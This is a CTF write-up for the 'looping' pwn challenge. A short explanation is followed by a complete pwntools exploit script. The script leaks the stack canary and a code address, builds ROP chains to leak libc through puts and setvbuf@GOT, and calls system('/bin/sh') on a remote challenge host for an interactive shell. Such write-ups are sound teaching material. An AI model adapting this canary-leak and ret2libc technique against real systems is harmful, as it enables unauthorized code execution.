


## VulnCon CTF: looping [pwn]


#### For this binary, all the security protections were on. The challenge description mentions something about canaries which is a pretty big hint of what we're supposed to do. The program loops for two times, basically what we need to do is leak the canary and a function address on the first loop (our input is not null terminated), and perform a ROP chain on the second loop to leak a libc address from the remote instance and start execution from main again. On the second go, we ignore the first loop and perform another ROP to call system on the second loop. 

```python
from pwn import *

binary = ELF('./looping', checksec = False)
#p = process('./looping')
breakpoints = ['brva 0x913']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))
p = remote("35.232.11.215", 49154)

p.sendline(cyclic(9*8)) #: input is not null terminated
data = p.recv().split('\n')
canary = u64(data[1][:7].rjust(8, '\x00'))
addr_leak = u64(data[1][7:].ljust(8, '\x00'))
func_base = addr_leak & ~0xfff
print(hex(func_base))
print(hex(addr_leak))
print(hex(canary))

#: ROPCHAIN
exploit = 'A' * 72 + p64(canary) + cyclic(8)
exploit += p64(func_base + 0x9f3) #: pop rdi ; ret
exploit += p64(func_base + 0xfd0 + 0x200000) #: setvbuf@GOT
exploit += p64(func_base + 0x710) #: puts
exploit += p64(func_base + 0x88a) #: main
p.sendline(exploit)

print(p.recvuntil('Harder\n'))
setvbuf_leak = u64(p.recv().strip().ljust(8, '\x00'))
print(hex(setvbuf_leak))

#: setup libc
libc = ELF('./libc.so.6', checksec = False)
libc_base = setvbuf_leak - libc.symbols['setvbuf']
print(hex(libc_base))

p.sendline('I will pwn for [hsb] soon, grind lang')
exploit = 'A' * 72 + p64(canary) + cyclic(8)
exploit += p64(func_base + 0x6fe) #: ret
exploit += p64(func_base + 0x9f3) #: pop rdi ; ret
exploit += p64(libc_base + libc.search('/bin/sh').next())
exploit += p64(libc_base + libc.symbols['system'])
p.sendline(exploit)
p.interactive()
```


